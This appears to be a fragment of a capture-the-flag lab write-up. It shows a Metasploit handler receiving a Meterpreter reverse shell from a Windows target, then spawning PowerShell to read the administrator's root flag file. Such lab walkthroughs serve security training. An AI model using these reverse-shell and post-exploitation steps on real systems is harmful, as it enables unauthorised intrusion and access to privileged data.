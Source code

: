 ```
msf6 exploit(multi/handler) > [*] Meterpreter session 1 opened (10.10.14.74:7474 -> 10.129.95.247:49919) at 2021-10-10 20:57:59 +0000
```

Now you could simply grab the root flag on the administrator's desktop.

```
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > execute -f powershell.exe -i -H
Process 2056 created.
Channel 2 created.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> cat C:/users/administrator/desktop/root.txt | measure -c
cat C:/users/administrator/desktop/root.txt | measure -c

Lines Words Characters Property
----- ----- ---------- --------
                    32
```
